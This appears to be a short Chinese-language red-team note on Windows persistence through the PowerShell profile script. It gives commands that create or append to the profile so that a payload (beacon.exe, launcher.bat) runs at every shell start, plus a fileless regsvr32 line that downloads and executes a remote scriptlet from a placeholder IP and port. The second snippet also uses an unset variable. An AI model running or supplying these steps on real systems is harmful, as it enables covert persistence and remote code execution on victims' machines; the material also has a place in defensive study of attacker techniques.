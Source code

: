 ## PowerShell Profile

PowerShell 配置文件脚本存储在“ **WindowsPowerShell** ”文件夹中，默认情况下该文件夹对用户隐藏

如果有效负载已放入磁盘，则可以使用“ **Start-Process** ”cmdlet 来指向可执行文件的位置

使用 “ **Test-Path $profile** ” 确定当前用户是否存在配置文件

如果配置文件不存在，命令“ **New-Item -Path $profile -Type File -Force** ”将为当前用户创建配置文件，“ **Out-File** ”将使用新内容重写配置文件

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Start-Process "C:\beacon.exe"'
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

与启动进程类似，“ **Invoke-Item** ”cmdlet 可用于执行项目的默认操作，即运行文件、打开应用程序等

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
Add-Content $profile "Invoke-Item C:\launcher.bat"
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

“ **Invoke-Command** ”可以执行命令，regsvr32可以用作无文件上线，并且可以从远程位置执行 scriptlet

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://IP:Port/jWcEbr.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```
